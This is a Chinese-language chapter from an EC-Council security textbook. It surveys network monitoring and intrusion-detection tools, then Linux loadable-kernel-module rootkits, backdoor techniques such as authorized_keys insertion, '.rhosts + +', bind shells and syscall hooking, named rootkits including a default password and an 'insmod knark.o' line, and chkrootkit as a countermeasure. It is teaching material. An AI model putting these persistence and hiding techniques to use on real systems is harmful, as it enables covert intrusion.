`Tcpdump` 打印与网络接口上的布尔表达式匹配的数据包头。它可以配合 `-w` 标志运行，使其将数据包数据保存到文件中以备后续使用。或者，它可以配合 `-b` 标志运行，使其从保存的数据包文件而不是从网络读取数据。

`Tcpdump` 充当 `Snort` 和 `Shadow` 等其他网络分析工具的后台程序。它可以作为追踪网络问题、检测 ping 攻击或监控网络活动的工具。

图 1-12 展示了 `Tcpdump` 的工作原理。图 1-13 和图 1-14 展示了来自 `Tcpdump` 的屏幕截图。



版权所有 © EC-Council

保留所有权利。严禁复制

**图 1-12**

`Tcpdump` 创建包含网络流量信息的文件。



**图 1-13**

此图展示了 `Tcpdump` 在命令行上运行的情形。

# 工具：Snort

`Snort` 是一个开源网络入侵防御和检测系统，它利用一种规则驱动的语言，结合了以下优势：

- 基于特征的检测
- 基于协议的检测
- 基于异常的检测



**图 1-14**

`Tcpdump` 获取网络流量并记录日志。

以下是 `Snort` 的部分功能：

- `Snort` 是一个嗅探器，这意味着它捕获网络流量以供进一步使用。
  - 它促进了 IP 网络上的流量分析和数据包记录。
  - `Snort` 可以检测各种攻击和探测，例如：
    - 蠕虫
    - 漏洞利用尝试
    - 端口扫描
    - 缓冲区溢出
    - CGI 攻击
    - SMB 探测
  - 它具有实时警报功能，通过 `syslog` 发送警报机制。

图 1-15 和图 1-16 展示了来自 `Snort` 的屏幕截图。

# 工具：SAINT

`SAINT` 是一款漏洞评估工具。`SAINT` 能够执行以下操作：

- 在入侵者利用之前，检测和修复网络安全性中可能存在弱点的区域
- 防止常见的系统漏洞
- 解释符合当前政府法规的情况，如 FISMA、Sarbanes-Oxley、GLBA、HIPAA 和 COPPA

以下步骤展示了 `SAINT` 漏洞扫描器的工作原理：

- 步骤 1：`SAINT` 扫描网络上的每个实时系统以获取 TCP 和 UDP 服务。
- 步骤 2：对于发现的每个正在运行的服务，它启动一组旨在检测任何可能导致攻击者获得未授权访问、创建拒绝服务或获取关于网络的敏感信息的探测。



**图 1-15**

这些是 `Snort` 的命令行选项。



**图 1-16**

`Snort` 捕获网络流量以供分析。



**图 1-17**

`SAINT` 是一个扫描引擎，旨在保护实时系统，例如 Web 服务器。

- 步骤 3：扫描器检查漏洞。
- 步骤 4：当检测到漏洞时，结果会被分类，允许客户针对他们认为最有用的数据进行定位。`SAINT` 可以根据严重程度、类型或数量对漏洞进行分组。它还可以提供关于特定主机或一组主机的信息。`SAINT` 描述其定位的每个漏洞；参考常见漏洞与暴露（CVE）、CERT 公告和 IAVA（信息安全漏洞警报）；并描述纠正漏洞的方法。在许多情况下，`SAINT` 扫描器提供链接，指向将消除已检测漏洞的补丁或新软件版本。

图 1-17 描述了 `SAINT` 的工作原理。图 1-18 展示了来自 `SAINT` 的屏幕截图。

# 工具：Wireshark

`Wireshark` 用于故障排除、分析、软件和协议开发以及教育。`Wireshark` 是在 GNU 通用公共许可协议下发布的开源软件。它在 UNIX、Linux 和 Windows 上运行。它使用 `GTK+`（一种图形用户界面库）和 `libcap`（一种数据包捕获和过滤库）。

以下是 `Wireshark` 的部分特性：

- 可以从以太网、FDDI、PPP、令牌环、IEEE 802.11、经典 IP over ATM 以及回环接口读取实时数据。
- 捕获的网络数据可以通过 GUI 或交互式 TTY 模式程序进行浏览。
- 捕获的文件可以通过 `tshark` 程序的命令行开关进行程序化编辑或转换。
- 数据可以从实时网络连接捕获，或从捕获文件读取。


- 输出可以保存或打印为纯文本或 PostScript。
- 可以使用显示过滤器细化数据显示。
- 显示过滤器也可以用于选择性地突出显示和着色数据包摘要信息。
- 每个捕获的网络跟踪的全部或部分都可以保存到磁盘。

图 1-19 和图 1-20 展示了来自 Wireshark 的屏幕截图。

# 工具：Abacus Port Sentry

Abacus Port Sentry（也称为 Abacus Sentry）是一个开源包，它监控网络接口并与防火墙代码交互，以在尝试端口扫描期间抵御攻击。

- 它利用 Portscan 检测守护进程，具有检测机器接口上的端口扫描（包括隐蔽扫描）的能力。



图 1-18 这是 SAINT 设置界面的截图。



图 1-19 Wireshark 分析网络协议。



图 1-20 Wireshark 提供详细的协议报告。

- 它可以通过 `hosts.deny`、丢弃的路由或防火墙规则来阻止攻击者。面对正在进行的端口扫描，Abacus Sentry 可以在入侵者深入之前快速阻止他们。但如果配置不当，它可能会使敌对的外部人员能够对系统发起拒绝服务攻击。

## 使用 Abacus Sentry 增强防火墙

虽然 Abacus Port Sentry 并非专门为此用途设计，但它可以与 Linux 中的透明代理设施相结合，从而提供一种非常有效的反应式防火墙来抵御入侵者。防火墙正常设置，无论是否有状态包过滤。最后的一系列规则或规则链将所有 IP 地址上常用服务的未使用端口重定向到 Port Sentry。这为 Port Sentry 提供了其他情况下无法获得的覆盖深度，并且可以检测到跨越多个地址对单个端口的扫描，并在入侵者深入网络之前将其取消。Abacus Port Sentry 可以检测缓慢扫描，但无法检测结构化攻击。这两种过程都旨在隐藏探测攻击。攻击者通过长时间分散测试来进行缓慢扫描。在结构化攻击中，攻击者试图通过从多个源地址进行扫描或探测来使探测尝试更加隐蔽。

图 1-21 展示了 Abacus Port Sentry 的构建和配置过程。

# 工具：Dsniff 集合

Dsniff 是一套用于网络审计和渗透测试的工具集。Dsniff 被动监控网络以获取有趣的数据（密码、电子邮件、文件等）。它还包含用于破坏网络交换机保护的高级技术。图 1-22 展示了 Dsniff 的截图。

```
[root@lucbn portsentry-1.1]# make linux
SSTYPE=linux
Making
cc -O -Wall -DLINUX -DSPORFSTSTEALTH -o ./portsentry ./portsentry.c \
./portsentry.lo.c ./portsentry_util.c
[root@lucbn portsentry-1.1]#
[root@lucbn portsentry-1.1]#
[root@lucbn portsentry-1.4]# make install
Creating psionic directory /usr/local/psionic
Setting directory permissions
Creating portsentry directory /usr/local/psionic/portsentry
Setting directory permissions
chmod 700 /usr/local/psionic/portsentry
Copying files
cp ./portsentry.conf /usr/local/psionic/portsentry
cp ./portsentry.ignore /usr/local/psionic/portsentry
cp ./portsentry /usr/local/psionic/portsentry/portsentry
Setting permissions
chmod 600 /usr/local/psionic/portsentry/portsentry.ignore
chmod 600 /usr/local/psionic/portsentry/portsentry.conf
chmod 700 /usr/local/psionic/portsentry/portsentry

Edit /usr/local/psionic/portsentry/portsentry.conf and change
your settings if you haven't already. (route, etc)

WARNING: This version and above now use a new
directory structure for storing the program
and config files (/usr/local/psionic/portsentry).
Please make sure you delete the old files when
the testing of this install is complete.

[root@lucbn portsentry-1.4]#
[root@lucbn portsentry-1.4]#
```

图 1-21 Abacus Port Sentry 试图防御防火墙免受攻击。



图 1-22 可以使用 Dsniff 嗅探系统中的密码。

```
# hping2 -n 172.16.240.241 -p 21 -S -c 4
eth0 default routing interface selected (according to /proc)
HPING 172.16.240.241 (eth0 172.16.240.241): S set, 40 headers + 0 data bytes
46 bytes from 172.16.240.241: flags=SA seq=1 ttl=63 id=0 win=5840 rtt=13.7 ms
46 bytes from 172.16.240.241: flags=SA seq=1 ttl=63 id=0 win=5840 rtt=3.7 ms
46 bytes from 172.16.240.241: flags=SA seq=2 ttl=63 id=0 win=5840 rtt=3.7 ms
46 bytes from 172.16.240.241: flags=SA seq=3 ttl=63 id=0 win=5840 rtt=3.5 ms

--- 172.16.240.241 hping statistic ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max = 3.5/6.1/13.7 ms
```

图 1-23 Hping2 可以分析数据包流量。

# 工具：Hping2

Hping2 是一个交互式数据包构造器和响应分析器。它可以执行许多任务，例如测试防火墙规则和端口扫描。它是一个生成 TCP/IP 数据包并使用脚本功能分析网络流量的安全工具。它是一个用于网络实验、分析和测试的工具。它还允许用户在非常低的层级创建和操作数据包。它处理分片以及任意数据包正文和大小，并可用于在受支持的协议下传输文件。

以下是 Hping2 的一些用途：

- 数据包大小检测
- 在不同协议下执行类似 Traceroute 的操作
- 指纹识别远程操作系统

图 1-23 展示了 Hping2 的截图。

# 工具：Sniffit

Sniffit 是各种攻击中常用的攻击工具之一。它适用于 Linux、Solaris、SunOS、FreeBSD 和 IRIX。用户可以将其运行在命令行上，使用可选的插件和过滤器，或者以交互模式运行，这是首选模式。Sniffit 由许多有用的功能组成。它可以配置为混杂地收集数据并将其传输到本地文件。其灵活的过滤功能允许攻击者基于端口号针对特定主机甚至特定协议。Sniffit 能够实时处理交互式会话嗅探。其交互模式对于监控面向会话的应用程序（如 Telnet、login 和 FTP 会话）非常有用。攻击者可以监控网络中的所有会话。攻击者可以实时查看受害者的按键并收集密码。图 1-24 展示了 Sniffit 的截图。

# 工具：Nemesis

Nemesis 是用于类 UNIX 和 Windows 系统的命令行网络数据包注入工具。它相当于一个手动控制的 IP 堆栈。使用 Nemesis，可以从命令行或 shell 脚本内部生成和传输数据包。图 1-25 展示了 Nemesis 的使用选项。

# 工具：LSOE


# LSOF (LiSt Open Files)

`LSOF` (LiSt Open Files) 是一个 UNIX 特有的诊断工具。它列出当前系统中运行的进程打开的任何文件的信息。它还可以列出每个进程打开的通信。

## LSOE 命令行示例

- `lsof -n`：当不带参数运行 `LSOE` 时，它将显示由任何进程打开的所有文件。
- `lsof -t which apache2`：它显示哪些进程 ID 正在使用 Apache 二进制文件。
- `lsof -i -U`：这列出了所有打开的 Internet 和 UNIX 域文件。

图 1-26 展示了 `LSOE` 的截图。







# 工具：IPTraf

`IPTraf` 是一个基于控制台的 Linux IP 局域网监视器。它收集各种数据，如 TCP 连接数据包和字节计数、接口统计和活动指标、TCP/UDP 流量分解以及局域网站点的包和字节计数。

## IPTraf 功能

- 一个 IP 流量监视器，显示通过网络的 IP 流量信息；这包括 TCP 流信息、包和字节计数、ICMP 详情以及 OSPF 包类型。
- 一般和详细的接口统计显示 IP、TCP、UDP、ICMP、非 IP 和其他 IP 包计数、IP 校验和错误、接口活动和包大小计数。
- TCP 和 UDP 服务监视器显示常用 TCP 和 UDP 应用端口的传入和传出数据包计数。
- 局域网统计模块发现活动主机并显示它们的数据活动统计。
- 它包括 TCP、UDP 和其他协议显示过滤器，允许用户仅查看他们感兴趣的流量。
- 支持以太网、FDDI、ISDN、SLIP、PPP 和回环接口类型。
- 利用 Linux 内核内置的原始套接字接口，使其可用于支持的各种网络卡。

## IPTraf 中使用的协议

- `IP`
- `TCP`
- `UDP`
- `ICMP`
- `IGMP`
- `IGP`
- `IGRP`



图 1-27 `IPTrap` 是一个功能强大的网络流量监控工具。

- `OSPF`
- `ARP`
- `RARP`

图 1-27 展示了 `IPTraf` 的截图。

# 工具：LIDS

`LIDS` 代表 Linux 入侵检测系统（Linux Intrusion Detection System）。其目标是通过在内核本身中禁用某些系统调用来保护系统免受 root 入侵。它是一个内核补丁和管理工具，通过实施强制访问控制（MAC）来增强内核的安全性。当它生效时，选定的文件访问权限；所有系统网络管理操作；任何能力使用、原始设备、内存和 I/O 访问都可以被禁止，即使对于 root 用户也是如此。

## LIDS 特性

- 用户可以定义哪些程序可以访问特定文件。
- 它使用并扩展系统能力来控制整个系统，并为内核添加了一些网络和文件系统安全特性。
- 用户可以在线微调安全保护，隐藏敏感进程，通过网络接收安全警报等。

图 1-28 展示了 `LIDS` 的截图。



**图 1-28 LIDS 为管理员提供了一些强大的测试工具。**

# 工具：Hunt

`Hunt` 是一种可以用作嗅探器或用于窃取网络连接的工具。当网络可被嗅探时，`Hunt` 可以以被动方式嗅探任何连接。然而，在交换网络中，流量通过检查每个物理端口的 MAC 地址仅被转发到目标主机。`Hunt` 通过使用 ARP 欺骗来避免 ACK 风暴和连接丢失。`Hunt` 可以使用 ARP 欺骗或 ARP 强制来监控交换网络中两台机器之间的流量。两台机器之间的所有数据包都可以被引导经过攻击者的机器，从而使嗅探成为可能。

`Hunt` 也可以用于会话劫持。`Hunt` 中的 ARP 欺骗功能使会话劫持成为可能。利用此功能，它可以控制两台主机之间传输的数据包。因此，它可以强制两台机器直接与其交互，而不是与真正的目标机器交互。图 1-29 展示了 `Hunt` 的截图。



**图 1-29 Hunt 可用于窃取网络上的连接。**

# 工具：TCP Wrappers

`TCP Wrappers` 允许用户监控/过滤针对 `SYSTAT`、`FINGER`、`FTP`、`TELNET`、`R-Commands`、`TFTP`、`TALK` 和其他网络服务的传入请求。它被称为 `TCP Wrappers`，是因为守护进程 `tcpd` 包裹在服务周围，如 `/etc/inetd.conf` 中所指示的那样。`Tcpd` 在连接中起中介作用。连接请求会与定义在两个文件中的规则进行比较：`/etc/hosts.allow` 和 `/etc/hosts.deny`。规则按出现顺序处理，当满足某个规则时，处理终止。

考虑安装了 `tcpd` 的系统上 `/etc/inetd.conf` 中的以下条目：

```
pop-3 stream tcp nowait root /usr/sbin/tcpd pop3d
```

在此条目中，`/usr/sbin/tcpd` 包裹着 `pop3d`，连接请求将根据 `tcpd` 规则进行检查。

例如，假设来自不可信域名的远程机器试图连接到 `example.com` 的邮件服务器。当它请求连接时，`tcpd` 首先扫描 `/etc/hosts.allow`。然后，`tcpd` 扫描 `/etc/hosts.deny`。在此场景中，`/etc/hosts.allow` 文件中没有条目；然而，基于 `/etc/hosts.deny` 文件中的条目，来自不可信域名的连接请求不会被授予访问权限。

## TCP Wrappers 组件

- `tcpd`：实际的封装程序
- `tcpdmach` 和 `tcpdchk`：ACL 测试程序
- `try-from`：测试主机查找功能
- `safe-finger`：finger 的改进版本

# Linux 可加载内核模块

可加载内核模块（`LKMs`）被 Linux 内核用于扩展其功能。`LKMs` 可以动态加载，而无需重新编译整个内核。通常，它们用于特定的设备驱动程序，例如声卡驱动程序。

传统上，UNIX 和 Linux 因内置 rootkit 而闻名，因为入侵者了解代码。Rootkit 通常被攻击者用于隐藏他们已获得系统特权访问权限的事实。一些 rootkit 包含 `LKMs`，这些 `LKMs` 在运行时成为内核的一部分，并为攻击者提供额外的特权和/或功能。

典型的 rootkit 包含一个嗅探器，旨在嗅探密码。Rootkit 还可以包含用作后门的特洛伊程序，例如 `inetd` 或 `lsdig`。`ps`、`netstat`、`rshd` 和 `ls` 等程序可用于隐藏攻击者的目录或进程。最后，日志清理工具，如 `zap`、`zap2` 或 `z2`，用于删除 `wtmp`、`utmp` 和 `lastlog` 文件中的登录条目。一些 rootkit 还启用 `telnet`、`shell` 和 `finger` 等服务。Rootkit 可能还包括用于清理 `/var/log` 和 `/var/adm` 目录中其他文件的脚本。使用安装在系统上的经过修改的 `ls`、`ps` 和 `df` 程序，入侵者可以隐藏其文件和程序，使其不被合法的系统管理员发现。

接下来，入侵者使用 rootkit 中的程序擦除由初始攻击生成的日志文件。入侵者可以使用 rootkit 中的后门程序以便在将来访问受入侵的系统，以检索嗅探器日志或发起另一次攻击。如果 rootkit 正确安装且日志文件被擦除，系统管理员可能在受影响的站点联系他或她，或者因为嗅探器日志导致磁盘已满之前，都不会意识到入侵的发生。

对系统安全最严重的威胁是由可部署的 `LKM` 特洛伊程序造成的 rootkit。即使受感染的系统重启，`LKM` 进程也会在启动期间重新加载特洛伊程序，就像任何其他内核模块一样。包括 Linux、Solaris 和 FreeBSD 在内的许多操作系统使用可加载内核模块。`Knark`、`Adore` 和 `Rkit` 是今天可用的许多 `LKM` rootkit 中的几个。它们作为内核的一部分运行，因此比传统的 rootkit 更难检测。后门使攻击者能够在受入侵系统的管理员采取措施的情况下重新获得访问权限。给予本地用户 root 访问权限的后门可以是设置程序、特洛伊化的系统程序或其他类型的后门。

## Setuid 程序

攻击者可能在文件系统中植入 `setuid` shell 程序，当执行时，将授予攻击者 root 访问权限。

## 特洛伊化的系统程序

攻击者可以修改某些系统程序，例如 `login`，以授予他或她 root 访问权限。

## 其他类型的后门

以下是其他一些类型的后门：

- *cron 作业后门*：当攻击者的程序运行时，他或她可能会添加或修改 `cron` 的作业，以便获得 root 访问权限。
- `.rhosts` 文件：一旦用户的 `.rhosts` 文件中包含 "+ +"，任何人就可以从任何地方无密码登录该账户。


## 后门技术

- `ssh authorized_keys`：攻击者可以将他或她的公钥放入受害者的 `ssh` 配置文件 `authorized_keys` 中，以便他或她可以无密码登录该账户。

- 绑定 `shell`：攻击者可以将 `shell` 绑定到特定的 `TCP` 端口。如果攻击者能够 `telnet` 到该端口，他们就可以生成一个交互式 `shell`。更复杂的此类后门可以是基于 `UDP`、无连接 `TCP` 甚至基于 `ICMP` 的。

- 特洛伊化服务：任何开放的服务都可以被特洛伊化，以提供远程用户的访问权限。例如，特洛伊化的 `inetd` 程序在特定端口创建绑定 `shell`，而特洛伊化的 `ssh` 守护进程可以允许使用特定密码访问。

在入侵者植入并运行后门后，他的注意力转向隐藏其文件和进程。然而，系统管理员可以轻松检测到这些，特别是如果系统正在运行 `Tripwire`。`LKM` `rootkit` 可以帮助攻击者。攻击者可以将 `LKM` 放在 `/tmp` 或 `/var/tmp` 目录中，这些目录是系统管理员无法监控的。此外，攻击者可以有效地隐藏文件、进程和网络连接。由于他或她可以修改内核结构，他或她可以用自己的版本替换原始系统调用。

`ls` 和 `du` 等命令使用 `sys_getdents()` 获取目录信息。攻击者可以使用 `LKM` 过滤文件，使其保持隐藏。

在 Linux 中，进程信息映射到 `/proc` 文件系统中的一个目录。攻击者可以修改 `sys_getdents()` 并在 `task` 结构中掩蔽进程。正常方法是将 `task` 标志（信号号）设置为某个未使用的值。

类似于隐藏进程，攻击者可以通过在 `/proc/net/tcp` 和 `/proc/net/udp` 文件中隐藏某些内容来尝试拥有隐蔽连接。他或她可以特洛伊化 `sys_read()`，以便每当系统读取这些文件且某一行匹配特定字符串时，系统调用不会泄露网络连接。

攻击者可以重定向文件执行，并且可能希望替换系统二进制文件（如 `login`），而不更改文件本身。他或她可以替换 `sys_execve()`，以便每当系统尝试执行 `login` 程序时，它将被重定向以执行攻击者版本的 `login` 程序。

攻击者可以隐藏网络接口的混杂模式标志，并使用 `LKM` 安装嗅探器。在这种情况下要特洛伊化的系统调用是 `sys_ioctl()`。

一个好的 `LKM` 必须能够隐藏自己不被管理员发现。系统中的 `LKMs` 保存在单个链表中。要隐藏一个 `LKM`，攻击者只需将其从列表中移除，这样 `lsmod` 等命令就不会显示它。

通常，`LKM` 中定义的函数会被导出，以便其他 `LKMs` 可以使用。攻击者可以使用宏并将其放在 `LKM` 的末尾，以防止任何符号被导出到其他 `LKMs`。

## 工具：Linux Rootkits

### Linux Rootkit IV

`Linux Rootkit IV` (`lrk4`) 由 `Lord Somer` 编写，并于 1998 年 11 月发布。Linux `rootkit` 的其他示例包括 `lrk`、`lnrk`、`lrk2` 和 `lrk3`。大多数版本包含普通的 `rootkit` 组件，如嗅探器（`linsniffer` 或 `sniffit`）、日志编辑器/擦除器（`z2`、`uted`、`lled`）以及特洛伊木马/后门替换程序，以允许远程访问。

`Linux Rootkit IV` 是一种易于安装和使用的 `rootkit`。安装 `lrk4` 只需执行 `make install` 命令。要安装影子套件，用户可以执行 `make shadow install` 命令。`Lrk4` 仅适用于 Linux 2.x 内核。它是一个包含几个特洛伊化系统命令源代码的包。当编译并安装后，执行该命令的用户将得到一个 `root shell` 或其他有用的功能，如隐藏某些进程、文件、套接字等。一些特殊功能是通过在程序请求任何特定内容（如新 `shell`、`登录名`、`密码` 或该命令特有的内容）时提供秘密密码（包中的默认密码是“`satori`”）来启动的。

大多数这些命令的安装都需要 `root` 权限，因为用户必须替换现有的系统文件，并且通常要为此设置 `suid` 参数。因此，攻击者必须入侵受害者计算机上的 `root` 账户，或者本地管理员必须意外地安装了 `rootkit`。该 `rootkit` 附带以下应用程序和 'Troxian' 系统命令：`bindshell`、`chfn`、`cnsh`、`crontab`、`du`、`find`、`fix`、`ifconfig`、`inetd`、`killall`、`linsniffer`、`login`、`ls`、`netstat`、`passwd`、`pidof`、`ps`、`rshd`、`sniffchk`、`syslogd`、`tcpd`、`top`、`wted` 和 `z2`。

## Rootkits: Knark 和 Törn

### Knark

`Knark` 由 `Creed` 编写，基于 `Plaguez` 编写的名为 `if.c` 的工具。`Knark` 具备 `rootkit` 的通常功能，包括执行重定向、文件隐藏、进程隐藏和网络隐藏。`Knark` 有两个版本；一个版本适用于 Linux 2.2 内核，另一个版本适用于 Linux 2.4 内核。编译 `Knark` 需要 Linux 内核源代码。攻击者可以进入 `/proc/wnark` 目录以查看 `Knark` 当前在系统中更改的具体内容。

在 `Knark` 安装到目标系统后，以下命令将提供一个后门入口：

```
insmod knark.o
```

### Törn

`Törn` 是第一个预编译并允许用户定义密码的 `rootkit`。密码存储在一个外部加密文件中。该套件的设计重点在于便携性和快速性。

## Rootkits: Tuxit, Adore, 和 Ramen

### Tuxit

`Tuxit` 由一个名为 `Tuxtendo` 的荷兰团队编写。`Tuxtendo` 的网站上可获取该 `rootkit` 的三个版本。它们是 `tuxkit.tgz`、`tuxkit-1.0.tgz` 和 `tuxkit-short.tgz`。`tuxkit.tgz` 和 `tuxkit-1.0.tgz` 的内容相同，而 `tuxkit-short.tgz` 包含的工具较少。`tuxkit` 中有六个文件，包括一个 `READMEe` 文件、一个安装脚本以及四个 `tar/zip` 压缩文件。

### Adore

`Adore` 是一个最初被称为 `Red Worm` 的蠕虫。`Adore` 扫描互联网，检查 Linux 主机是否因 `LPRng`、`rpc-statd`、`wu-ftpd` 和 `BIND` 服务功能中众所周知的弱点而易受某些已知漏洞利用的攻击。

### Ramen

`Ramen` 是一种基于 Linux 的互联网蠕虫，命名源自动人味汤。它已在野外发现，影响了运行 Red Hat 6.2 或 7.0 版本 Linux 的系统。该蠕虫似乎会攻击运行 Red Hat Linux 的网站，然后通过定位运行相同操作系统的服务器来传播自身。

## Rootkit: Beastkit

`Beastkit` 替换了可用于监控系统操作的常见二进制文件（如 `ps`）以及 `rootkit` 中包含的程序列表（`bin.tgz`）。时间戳不会改变，因为 `rootkit` 使用 `touch -acmr` 将时间戳传递给 `rootkit` 文件。

## Rootkit 对策

### Chkrootkit

`Chkrootkit` 是一个检查本地 `rootkit` 迹象的工具。它包含以下内容：

- `chkrootkit`：检查系统二进制文件是否被 `rootkit` 修改的 `shell` 脚本

- `ifpromisc.c`：检查网络接口是否处于混杂模式

- `chklastlog.c`：检查 `lastlog` 删除情况

- `chkutmp.c`：检查 `wtmp` 删除情况

- `check_wtmpx.c`：检查 `wtmpx` 删除情况（仅适用于 Solaris）

- `chkproc.c`：检查 `LKM` 特洛伊的迹象

- `chkdirs.c`：检查 `LKM` 特洛伊的迹象

